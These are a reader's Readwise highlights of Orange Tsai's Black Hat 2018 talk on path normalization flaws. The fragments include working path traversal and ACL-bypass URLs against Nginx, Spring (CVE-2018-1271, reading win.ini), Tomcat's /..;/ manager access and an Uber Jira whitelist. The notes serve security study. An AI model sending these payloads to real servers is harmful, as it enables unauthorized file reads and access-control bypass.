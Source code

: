 ```yaml
---
author: "Orange Tsai"
aliases: "Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out"
tags: RW_inbox, readwise/articles
url: https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf?ref=labs.watchtowr.com
date: 2025-01-08
---
```

# Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/media/reader/parsed_document_assets/251497476/dIJKUpvPoZAhkmlE5hOQ5YuIKSEWUAzI3QCJIir9HXc-cove_ENvTHkT.png)




Normalize To make standard; determine the value by comparison to an item of known standard value
> [View Highlight](https://read.readwise.io/read/01jh39jkm0qp8kns0egam8j6sy)



Why normalization? To protect something
> [View Highlight](https://read.readwise.io/read/01jh39jqa6qynh08wchj0gw363)



Inconsistency if (check(data)) { use(data) }
> [View Highlight](https://read.readwise.io/read/01jh39jtjs81rgb98y4p46wz79)



Windows treat as UNC new URL("file:///etc/passwd?/../../Windows/win.ini") Linux treat as URL
> [View Highlight](https://read.readwise.io/read/01jh39net9ms8sj2xtyqwtcga1)



How parsers could be failed?
> [View Highlight](https://read.readwise.io/read/01jh39nw3mmxpm4pbeaq1x4152)



static String QUOTED_FILE_SEPARATOR = Pattern.quote(File.separator) static String DIRECTIVE_FILE_SEPARATOR = '/' public AssetFile getAsset(String relativePath) { if(!relativePath) return null relativePath = relativePath.replace( QUOTED_FILE_SEPARATOR, DIRECTIVE_FILE_SEPARATOR)
> [View Highlight](https://read.readwise.io/read/01jh39p4yq38w6pq159pgqk6x6)



setFile getAsset(String relativePath) { if(!relativePath) return null Pattern.quote("/") = "\Q/\E"
> [View Highlight](https://read.readwise.io/read/01jh39pngeysbe6bgz8jrexjwp)

> Note: https://stackoverflow.com/questions/15409296/what-is-the-use-of-pattern-quote-method



..\Q/\E is the new ../ in Grails
> [View Highlight](https://read.readwise.io/read/01jh39q0amkpnxqweyarzyvwgb)



/app/static/ v.s. /app/static How single slash could be failed?
> [View Highlight](https://read.readwise.io/read/01jh39rt8sf1wepvykr4zj4xf7)



Nginx off-by-slash fail http://127.0.0.1/static../settings.py location /static { alias /home/app/static/; } Nginx matches the rule and appends the remainder to destination /home/app/static/../settings.py
> [View Highlight](https://read.readwise.io/read/01jh39s4ycsq6e6da0pcm840hh)



Spring 0day - CVE-2018-1271
> [View Highlight](https://read.readwise.io/read/01jh3a5dpjc3nqma2w1da4x7mq)



String[] pathArray = delimitedListToStringArray(pathToUse, "/"); List<String> pathElements = new LinkedList<>(); int tops = 0; for
> [View Highlight](https://read.readwise.io/read/01jh3a8852mx1hyc02nsrjk14z)



Input /foo/../ /foo/../../ /foo//../ /foo///../../ /foo////../../../ cleanPath / /../ /foo/ /foo/ /foo/ Filesystem / /../ / /../ /../../
> [View Highlight](https://read.readwise.io/read/01jh3a97exyfvyr7sf3h267y50)



http://0:8080/spring-rabbit-stock/static/%255c%255c%255c%255c%255c %255c..%255c..%255c..%255c..%255c..%255c..%255c/Windows/win.ini
> [View Highlight](https://read.readwise.io/read/01jh3acazhnyshww9bv4vthezf)



URL path parameter • d http://example.com/foo;name=orange/bar/
> [View Highlight](https://read.readwise.io/read/01jh3bhd6c6v8x1wvmz544kzm0)



Behavior Apache Nginx IIS Tomcat Jetty WildFly WebLogic /foo;name=orange/bar/ /foo;name=orange/bar/ /foo;name=orange/bar/ /foo/bar/ /foo/bar/ /foo /foo
> [View Highlight](https://read.readwise.io/read/01jh3bhqzg8ny66xqwc6kdcjs2)



How danger it could be? • Bypass whitelist and blacklist ACL • Escape from context mapping • Web container console and management interface • Other servlet contexts on the same server
> [View Highlight](https://read.readwise.io/read/01jh3bm4y11w54929p1g6jxasb)



/..;/ seems to be a directory. Take it!
> [View Highlight](https://read.readwise.io/read/01jh3bng8tq3qbc94v3hx9wsh8)



http://example.com/portal/..;/manager/html
> [View Highlight](https://read.readwise.io/read/01jh3bnn6f81tt4jz8yg23ws8r)



OK! /..;/ is the parent directory
> [View Highlight](https://read.readwise.io/read/01jh3bntxsp4pv3pyd2m8nrwpd)



Uber bounty case
> [View Highlight](https://read.readwise.io/read/01jh3btq38tzr9df2tpwxv68hd)



Uber disallow direct access *.uberinternal.com
> [View Highlight](https://read.readwise.io/read/01jh3bvdd55j1kmg3a6xgpfeq8)



But we found a whitelist API(for monitor purpose?)
> [View Highlight](https://read.readwise.io/read/01jh3bvhsj2p632z20pjn43ys2)



https://jira.uberinternal.com/status
> [View Highlight](https://read.readwise.io/read/01jh3bvmrdtw2wamsfztckqd5n)



/..;/ seems to be a directory with the /status whitelist.a
> [View Highlight](https://read.readwise.io/read/01jh3byazsw2afwmz5rrr9jera)



https://jira.uberinternal.com/status/..;/secure/Dashboard.jspa
> [View Highlight](https://read.readwise.io/read/01jh3byfrzgvq5460njknxcw13)



Oh shit! /..;/ is the parent directory
> [View Highlight](https://read.readwise.io/read/01jh3byrpyw89cq1j8e4d9hftc)

